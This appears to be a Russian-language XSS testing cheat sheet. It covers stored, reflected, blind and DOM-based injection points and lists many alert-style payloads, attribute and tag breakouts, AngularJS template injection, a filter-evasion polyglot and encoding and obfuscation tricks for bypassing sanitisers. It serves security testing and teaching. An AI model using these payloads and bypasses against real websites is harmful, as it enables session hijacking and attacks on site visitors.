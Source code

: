 
# 1. Поиск уязвимости

### 1.1 Определить вид XSS-атаки:
- Хранимые - код хранится в базе данных
- Отраженные - код исполняется серверными сценариями и не хранится в базе данных
- Через DOM - код сохраняется и выполняется в браузере
#### 1.2 Хранимые

##### Точки входа:
- **Параметры в URL и теле сообщения**
	Данные, передаваемые через GET или POST-запросы.
- **Путь к файлу URL**
	Входные данные, которые могут быть обработаны приложением.
- **HTTP-заголовки**
	Заголовки запроса, которые могут содержать уязвимые данные.
- **Внеполосные маршруты**
	Данные из внешних источников (например, электронные письма, сторонние твиты, агрегированные новости).

##### Точки выхода:
- **HTTP-ответы**
	Все ответы, возвращаемые пользователю, могут содержать вредоносные данные.
- **Отображаемые имена и другие пользовательские данные**
	Могут быть выданы в скрытых или видимых частях приложения (например, журналы аудита).
- **Данные, хранящиеся в приложении**
	Уязвимы к перезаписи через другие функции (например, результаты поиска).


#### 1.2.1 Хранимые Blind

- Имеют такие же точки входа, но проблема в том что мы не можем сразу увидеть результат

- Необходимо учитывать множество контекстов, в которых может выполняться код: 
	внутри одинарных или двойных кавычек, различных атрибутов и т.д.


#### 1.3 Отраженные
##### Точки входа:
- Параметры URL
	Тестировать каждую точку входа, например, в запросах типа GET, как в примере: `https://example.com/search?query=<script>alert('XSS!');</script>`
- Формы ввода
	Ввод данных через формы (например, поля поиска, регистрации или обратной связи), которые могут напрямую отражать введенные значения на странице.
- HTTP-заголовки
	Заголовки запроса, такие как Referer, User-Agent и другие, могут быть использованы для передачи вредоносного кода. Пример: `Referer: https://attacker.com/?data=<script>alert('XSS!');</script>`
- Параметры в теле POST-запросов
	Проверка содержимого, отправляемого через POST-запросы, так как некоторые приложения могут отражать эти данные в ответе.
- Сессионные идентификаторы и токены
	Если приложение использует идентификаторы сессий или токены в URL или формах, их также следует тестировать на уязвимость к XSS.
- Атрибуты HTML
	Некоторые приложения могут отображать пользовательские данные в атрибутах HTML (например, alt, title, data-), что также требует проверки. Пример данные в атрибут `title`, например, `<div title="<script>alert('XSS!');</script>">Hover me!</div>`
- Контекст отражения
	Определите контекст, в котором данные будут отображаться. Например, текст может быть вставлен в HTML, JavaScript, CSS или URL. Это поможет выбрать правильные полезные нагрузки для тестирования.
- Тестирование потенциальной полезной нагрузки
	Используйте различные полезные нагрузки для проверки уязвимости, включая простые скрипты и более сложные сценарии. Пример: 
	`<img src=x onerror="alert('XSS!')">`
- Тестируйте альтернативные полезные нагрузки
	Разнообразьте тесты с помощью различных кодировок и методов (например, URL-кодирование, HTML-кодирование), чтобы выявить возможные уязвимости.
- Протестируйте атаку в браузере
	Выполняйте тесты в реальном браузере, чтобы увидеть, как приложение обрабатывает вредоносный код и отразит ли его на странице.

#### 1.4 Через DOM

- Из-за различий в реализациях DOM некоторые браузеры оказываются уязвимыми, некоторые — нет. 


----
# 2.1 Эксплуатация Хранимой видимой

### Варианты полезной нагрузки

`<script>alert('XSS Attack!');</script>`
	простое окошко xss атаки

`<img src="invalid.jpg" onerror=alert('XSS Attack!')>` 
	payload находится внутри обработки тега изображения и сработает когда изображение не загрузится

`<img src="valid.jpg" onload=alert('XSS Attack!')>` 
	payload находится внутри обработки тега изображения и сработает когда изображение загрузится

jQuery с `URLSearchParams(window.location.search)`
	 `javascript:alert(document.cookie)`

jQuery c `location.hash`
`/#Say It With Flowers - Or Maybe Not onload="this.src+='<img src="1" onerror=alert(1)>'">`

AngularJS c {{ }}
`{{ метод.constructor('') }}`
`{{ $eval.constructor('alert1')() }}` 

### Методы обхода защит

`&lt;script&gt;alert(1)&lt;/script&gt;`
	Экранировать html

`%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%31%29%3c%2f%73%63%72%69%70%74%3e`
	url кодировка

`<div title="xss' onmouseover='alert(1)"></div>`
	В атрибуты html

`<><img src="0" onerror="alert(1)">`
	Обход очищения от тегов при неверной конфигурации 


# 2.2 Эксплуатация Хранимой blind

`'><script>alert('XSS Attack!');</script>`
	выход за пределы атрибута в одинарных кавычках

`'"><script>alert('XSS Attack!');</script>`
	Выход за пределы атрибута в одинарных и двойных кавычках

`-->'"><script>alert('XSS Attack!');</script>`
	Выход за пределы HTML-комментария

`</textarea>'><script>alert('XSS Attack!');</script>`
	Выход за пределы  `<textarea>`

`</style></textarea>'><script>alert('XSS Attack!');</script>`
	Выход за пределы элемента `<style>`

### XSS-полиглоты

- Проверять различные параметры может помочь использование полиглотов это специальные пейлоады, которые могут выполняться в различных контекстах HTML и JavaScript.

Они предназначены для обхода фильтров и защиты, которые могут быть установлены на веб-приложении.
```
javascript:/*--></marquee></script></title></textarea></noscript></style></xmp>">[img=1]<img -/style=-=expression&#40&#47;&#42;’/-/*&#39;,/**/eval(name)//&#41;;width:100%;height:100%;position:absolute;behavior:url(#default#VML);-o-link:javascript:eval(title);-o-link-source:current name=alert(1) onerror=eval(name) src=1 autofocus onfocus=eval(name) onclick=eval(name) onmouseover=eval(name) background=javascript:eval(name)//>
```
Существуют множество пейлоадов-полиглотов, которые можно найти в репозиториях, таких как SecLists или [fuzzdb](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/xss/XSSPolyglot.txt)




# 3. Эксплуатация Через DOM

- приемник, поддерживающий динамическое выполнение кода, например `eval()`или `innerHTML`. позволяет эксплуатировать 

- document.write() - работает с `<script></script>`
- innerHTML - позволяет получать или устанавливать HTML-содержимое элемента
# 4. Обход защит от xss

- **Использование альтернативных тегов и атрибутов** 
	 `<img src="x" onerror="alert('XSS')">` 

- **Обфускация кода**
	`<scr`**`<script>`**`ipt>alert('XSS')``</scr`**`<script>`**`ipt>`

- **Использование JavaScript URI**  
	 `<a href="javascript:alert('XSS')">Click me</a>`

- **HTML Entities сущности**
     `&lt;script&gt;alert('XSS')&lt;/script&gt;` 

- **Динамическое создание скриптов**
	 `setTimeout("alert('XSS')", 1000);`
 
- **Пробелы и специальные символы**
	`<script src="data:text/javascript;base64,YWxlcnQoJ1hTUycp"></script>`

- **Кросс-доменные запросы**
   • Использование кросс-доменных запросов (CORS) для выполнения скриптов с другого домена.

- **HTML теги**
	тег `body`: `<BODY ONLOAD=alert('XSS')>`

- **URL кодировка**
	`<script>alert(XSS)</script>`  в `%3Cscript%3Ealert%28XSS%29%3C%2Fscript%3E`

